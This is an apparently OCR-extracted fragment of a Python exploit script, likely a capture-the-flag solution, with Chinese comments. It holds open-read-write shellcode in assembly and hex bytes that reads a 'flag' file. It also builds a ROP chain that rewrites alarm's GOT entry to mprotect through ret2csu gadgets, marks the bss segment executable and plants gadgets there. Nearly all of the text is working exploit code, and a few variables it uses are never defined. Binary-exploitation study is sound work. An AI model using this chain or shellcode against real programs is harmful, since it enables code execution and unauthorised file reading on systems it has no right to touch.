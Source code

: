 ```python
push 0
pop rsi
push 2
pop rax
syscall

push 1
pop rdi
mov rsi,0x601500
push 0x50
pop rdx
push 0
pop rax
syscall

push 0
pop rdi
mov rsi,0x601500
push 0x50
pop rdx
push 1
pop rax
syscall
"""
#mov rsi,0x601500
orw="\x68\x66\x6C\x61\x67\x48\x89\xE7\x6A\x00\x5E\x6A\x02\x58\x0F\x05\x6A\x01\x5F\x48\xC7\xC6\x00\x15\x60\x00\x6A\x50\x5A\x6A\x00\x58\x0F\x05\x6A\x00\x5F\x48\xC7\xC6\x00\x15\x60\x00\x6A\x50\x5A\x6A\x01\x58\x0F\x05"


"""
下面三个指令所对应的机器码
rep movs qword ptr [rdi],qword ptr[rsi] ; ret #F348A5C3
mov rsi,rsp;ret #4889E6C3
pop rbx;pop rbp;pop rcx #5B5D59C3
"""


#将alarm函数的got表换成mprotect的真实地址
payload='a'*16
payload+=p64(csu_gadget1)
payload+=p64(mprotect_offset-alarm_offset)+p64(alarm_got_addr+0x3d)
payload+=32*'a'
payload+=p64(magic_gadget_addr)
payload+=p64(csu_gadget1)

#执行mprotect函数
payload+=p64(0)+p64(1)
payload+=p64(alarm_got_addr)
payload+=p64(bss_ye)
payload+=p64(0x100000)+p64(7)
payload+=p64(csu_gadget2)

#往bss段+0x10写入pop rbx;pop rbp;pop rcx;ret
payload+='a'*8+p64(0xc3595d5b)+p64(bss_addr+0x10+0x3d)
payload+=32*'a'
payload+=p64(magic_gadget_addr)

payload+=p64(bss_addr+0x10)
#往bss段写入 rep movs qword ptr [rdi],qword ptr[rsi] ; ret
#payload+=p64(bss_addr+0x10)
payload+=p64(0xc3a548f3)+p64(bss_addr+0x3d)+p64(0)
payload+=p64(magic_gadget_addr)
```